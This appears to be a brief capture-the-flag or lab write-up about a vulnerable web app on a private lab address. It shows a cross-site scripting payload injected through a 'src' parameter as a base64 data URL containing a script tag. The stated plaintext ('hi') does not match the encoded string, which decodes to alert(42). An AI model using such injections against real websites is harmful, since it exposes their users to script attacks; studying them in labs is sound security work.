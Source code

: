 - DataURL allows input file contents
- [add data into src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs)
    - ```data:[<mediatype>][;base64],<data>```
    - ```http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCg0Mik8L3NjcmlwdD4=```

- [encode with Base64](https://www.base64encode.org/)
    - ```<script>alert('hi');</script>```
    - ```PHNjcmlwdD5hbGVydCg0Mik8L3NjcmlwdD4=```
